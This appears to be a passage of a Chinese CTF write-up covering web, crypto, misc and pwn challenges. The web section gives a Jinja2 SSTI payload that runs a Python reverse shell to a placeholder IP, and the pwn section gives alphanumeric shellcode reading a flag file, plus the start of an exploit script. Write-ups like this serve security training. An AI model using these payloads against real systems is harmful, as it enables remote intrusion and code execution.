        config.add_view(home_view, route_name='home', renderer='home.pt', permission='view')
        config.add_view(info_view, route_name='info', renderer='details.pt', permission='view')
        config.add_view(login_view, route_name='login', renderer='login.pt')
        config.add_view(shell_view, route_name='shell', renderer='string', permission='view')

        config.scan()
        app = config.make_wsgi_app()
        return app


if __name__ == "__main__":
    app = main()
    server = make_server('0.0.0.0', 6543, app)
    server.serve_forever()

```

发现 ssti

```
def shell_view(request):
    if request.session.get('username') != 'admin':
        return Response("请先登录", status=403)

    expression = request.GET.get('shellcmd', '')
    blacklist_patterns = [r'.*length.*',r'.*count.*',r'.*[0-9].*',r'.*\..*',r'.*soft.*',r'.*%.*']
    if any(re.search(pattern, expression) for pattern in blacklist_patterns):
        return Response('wafwafwaf')
    try:
        result = jinja2.Environment(loader=jinja2.BaseLoader()).from_string(expression).render({"request": request})
        if result != None:
            return Response('success')
        else:
            return Response('error')
    except Exception as e:
        return Response('error')

```

访问 `/shell` 路由，这是没有回显的 ssti

再次传参绕过过滤，从而让 exec 内的值完全可控

接着用 python 进行反弹 shell

```
/shell?shellcmd={{lipsum['__globals__']['__builtins__']['exec'](request['params']['shell'])}}&shell=import socket,subprocess,os%0as=socket.socket(socket.AF_INET,socket.SOCK_STREAM)%0as.connect(("[ip]",2333))%0aos.dup2(s.fileno(),0)%0aos.dup2(s.fileno(),1)%0aos.dup2(s.fileno(),2)%0ap=subprocess.call(["/bin/sh","-i"])
```

得到 flag



## Crypto

### Curve

参考链接：[Crypto趣题-曲线](https://tangcuxiaojikuai.xyz/post/187210a7.html)

用里面的脚本，改一下参数就行了

```
# sage
from Crypto.Util.number import *
p = 64141017538026690847507665744072764126523219720088055136531450296140542176327
a = 362
d = 7
c = 1
e = 0x10001
eG = (34120664973166619886120801966861368419497948422807175421202190709822232354059, 11301243831592615312624457443883283529467532390028216735072818875052648928463)

#part2 map to ECC
F = GF(p)
dd = F(d*c^4)
A = F(2) * F(a+dd) / F(a-dd)
B = F(4) / F(a-dd)
a = F(3-A^2) / F(3*B^2)
b = F(2*A^3-9*A) / F(27*B^3)

def edwards_to_ECC(x,y):
    x1 = F(x) / F(c)
    y1 = F(y) / F(c)
    #now curve is a*x^2+y^2 = 1+dd*x^2*y^2

    x2 = F(1+y1) / F(1-y1)
    y2 = F(x2) / F(x1)
    #now curve is By^2 = x^3 + Ax^2 + x

    x3 = (F(3*x2) + F(A)) / F(3*B)
    y3 = F(y2) / F(B)
    #now curve is y^2 = x^3 + ax + b

    return (x3,y3)

def ECC_to_edwards(x,y):
    x2 = (F(x) * F(3*B) - F(A)) / F(3)
    y2 = F(y) * F(B)
    #now curve is By^2 = x^3 + Ax^2 + x

    x1 = F(x2) / F(y2)
    y1 = F(1) - (F(2) / F(x2+1))
    #now curve is a*x^2+y^2 = 1+dd*x^2*y^2

    x_ = F(x1) * F(c)
    y_ = F(y1) * F(c)
    #now curve is a*x^2+y^2 = c^2(1+d*x^2*y^2)

    return (x_,y_)

E = EllipticCurve(GF(p), [a, b])
order = E.order()
eG = E(edwards_to_ECC(eG[0],eG[1]))
t = inverse(e,order)
G = t*eG
G = ECC_to_edwards(G[0],G[1])
print(long_to_bytes(int(G[0])))
# b'D0g3xGC{SOlvE_The_Edcurv3}'

```

### babyRSA

先根据 e 和 d 求出 p 和 q，接着解 RSA

```
from Crypto.Util.number import*
import random
import gmpy2

n = 539403894871945779827202174061302970341082455928364137444962844359039924160163196863639732747261316352083923762760392277536591121706270680734175544093484423564223679628430671167864783270170316881238613070741410367403388936640139281272357761773388084534717028640788227350254140821128908338938211038299089224967666902522698905762169859839320277939509727532793553875254243396522340305880944219886874086251872580220405893975158782585205038779055706441633392356197489
d = 58169755386408729394668831947856757060407423126014928705447058468355548861569452522734305188388017764321018770435192767746145932739423507387500606563617116764196418533748380893094448060562081543927295828007016873588530479985728135015510171217414380395169021607415979109815455365309760152218352878885075237009
c = 82363935080688828403687816407414245190197520763274791336321809938555352729292372511750720874636733170318783864904860402219217916275532026726988967173244517058861515301795651235356589935260088896862597321759820481288634232602161279508285376396160040216717452399727353343286840178630019331762024227868572613111538565515895048015318352044475799556833174329418774012639769680007774968870455333386419199820213165698948819857171366903857477182306178673924861370469175

def getpq(n,e,d):
    p = 1
    q = 1
    while p==1 and q==1:
        k = d * e - 1
        g = random.randint ( 0 , n )
        while p==1 and q==1 and k % 2 == 0:
            k //= 2
            y = pow(g,k,n)
            if y!=1 and GCD(y-1,n)>1:
                p = GCD(y-1,n)
                q = n//p
                p = p//q
    return p,q

p,q = getpq(n,n,d)

key = inverse(n, (p-1)*(q-1))
pq = GCD(pow(2, n*key, n)-2, n)
print(long_to_bytes(pow(c, key, pq)))
# b'D0g3xGC{W1sh_Y0u_Go0d_L@ucK-111}'

```

## Misc

### eZ\_Steg0

提取 `01.png` 中的像素，转成0和1

```
from PIL import Image

image = Image.open('01.png')
pixels = image.load()
width, height =image.size

data = ''
for y in range(height):
    for x in range(width):
        if pixels[x, y] == 0:
            data += '0'
        else:
            data += '1'

image.close()

print(data)

```

用赛博厨子梭出一张图片


得到压缩包解压密码为

```
!!SUp3RP422W0RD^/??.&&
```

解压后，查看 key 发现文件头部有一串 base64



base64 解码



猜测是 stl 文件，删除头部的 base64 后保存

改后缀名为`.stl`，双击打开得到 key



```
key:sSeCre7KeY?!!@$
```

接着拿这个 key 和 flag 文件异或，得到一个音频文件

```
key = b'sSeCre7KeY?!!@$'
data = open('flag','rb').read()
new_data = []
for i in range(len(data)):
    new_data += [data[i]^key[i%len(key)]]

new_data = bytes(new_data)
# print(new_data[:20])
open('new_flag.wav','wb').write(new_data)

```

根据题目描述应该还有一个 LSB，取音频文件的低位查看，发现 flag 在里面

```
from PIL import Image

image = Image.open('01.png')
pixels = image.load()
width, height =image.size

data = ''
for y in range(height):
    for x in range(width):
        if pixels[x, y] == 0:
            data += '0'
        else:
            data += '1'

image.close()

print(data)

```



flag

```
D0g3xGC{U_4rE_4_WhI2_4t_Ste9An09r4pHY}
```

### Tr4ffIc\_w1th\_Ste90

题目附件解压得到


根据题目 hint，开始流量分析，找小明丢失的视频



搜 video，找到视频的流量

追踪 UDP 流



选择原始数据



根据提示，视频的格式为 obs 的默认格式，也就是 mkv

导出视频后我们可以得到压缩包的密码



解压压缩包，里面有两个文件



一个是加密后的图片，一个是加密算法

根据加密算法我们可以写一个解密脚本，同时根据脚本里的暗示我们可以知道 seed 在50-70之间，我们输出所有的照片

```
import numpy as np
import cv2
import sys
import random


def decode(input_image, output_image_prefix, seed):
    np.random.seed(seed)
    encoded_image = cv2.imread(input_image)
    if encoded_image is None:
        print(f"Error: Unable to load image {input_image}")
        exit(1)
    encoded_array = np.asarray(encoded_image)

    row_num = encoded_array.shape[0]
    col_num = encoded_array.shape[1]

    original_row_indices = list(range(row_num))
    original_col_indices = list(range(col_num))
    np.random.shuffle(original_row_indices)
    np.random.shuffle(original_col_indices)

    reversed_row_order = np.argsort(original_row_indices)
    restored_array = encoded_array[reversed_row_order, :]

    reversed_col_order = np.argsort(original_col_indices)
    restored_array = restored_array[:, reversed_col_order]

    output_image = f"{output_image_prefix}_{seed}.png"
    cv2.imwrite(output_image, restored_array)
    print(f"Decoded image with seed {seed} saved as {output_image}")


def main():
    if len(sys.argv)!= 3:
        print('error! Please provide input image path and output image prefix as command-line arguments.')
        exit(1)
    input_image = sys.argv[1]
    output_image_prefix = sys.argv[2]
    for seed in range(50, 71):
        decode(input_image, output_image_prefix, seed)


if __name__ == '__main__':
    main()

```



我们可以得到一个二维码

扫码得到

> I randomly found a word list to encrypt the flag. I only remember that Wikipedia said this word list is similar to the NATO phonetic alphabet.
>
> crumpled chairlift freedom chisel island dashboard crucial kickoff crucial chairlift drifter classroom highchair cranky clamshell edict drainage fallout clamshell chatter chairlift goldfish chopper eyetooth endow chairlift edict eyetooth deadbolt fallout egghead chisel eyetooth cranky crucial deadbolt chatter chisel egghead chisel crumpled eyetooth clamshell deadbolt chatter chopper eyetooth classroom chairlift fallout drainage klaxon

根据提示：only remember that Wikipedia said this word list is similar to the NATO phonetic alphabet.

我们找到一个叫 `PGP` 的单词表



根据单词表我们将单词转换成 HEX

```
44 30 67 33 78 47 43 7B 43 30 4E 39 72 41 37 55 4C 61 37 31 30 6E 35 5F 59 30 55 5F 48 61 56 33 5F 41 43 48 31 33 56 33 44 5F 37 48 31 35 5F 39 30 61 4C 7D
```

再转换成中文字符得到 flag



## Pwn

### Alpha\_Shell

检查保护，保护全开

```
➜  Alpha_Shell checksec pwn  
[*] '/home/ubuntu/CTF/PWN/CTF赛/国城杯2024/Alpha_Shell/pwn'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

```

检查沙箱

```
➜  Alpha_Shell seccomp-tools dump ./pwn
Radiant powers, deadly tech. Here we go!
OOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPP
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0c 0xc000003e  if (A != ARCH_X86_64) goto 0014
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x09 0xffffffff  if (A != 0xffffffff) goto 0014
 0005: 0x15 0x07 0x00 0x00000000  if (A == read) goto 0013
 0006: 0x15 0x06 0x00 0x00000001  if (A == write) goto 0013
 0007: 0x15 0x05 0x00 0x00000002  if (A == open) goto 0013
 0008: 0x15 0x04 0x00 0x00000013  if (A == readv) goto 0013
 0009: 0x15 0x03 0x00 0x00000014  if (A == writev) goto 0013
 0010: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0013
 0011: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0014: 0x06 0x00 0x00 0x00000000  return KILL

```

这篇文章看到可以用 AE64：[Alphanumeric Shellcode：纯字符Shellcode生成指南 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/232280.html)

可以考虑用 `openat+sendfile`

```
# -*- coding: utf-8 -*-
from pwn import *
from ae64 import AE64
context(arch='amd64', os='linux')
context.log_level = 'debug'

# shellcode=shellcraft.openat(-100,'/flag',0)
# shellcode+=shellcraft.sendfile(1,3,0,0x100)
# shellcode=asm(shellcode)
shellcode='''
mov rax, 0x67616c662f2e ;// ./flag
push rax
mov rdi, -100
mov rsi, rsp
//mov edx,0
xor edx, edx
xor r10, r10
push SYS_openat ;// SYS_openat
pop rax
syscall
mov rdi, 1
mov rsi, 3
push 0
mov rdx, rsp
mov r10, 0x100
push SYS_sendfile ;// SYS_sendfile
pop rax
syscall
'''
shellcode=asm(shellcode,arch='amd64')
shellcode=AE64().encode(shellcode,'rdx')
print (shellcode)

```

exp

```
# -*- coding: utf-8 -*-
from pwn import *
# from LibcSearcher import *
p = process("./pwn")
#p = remote("125.70.243.22",31505)
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
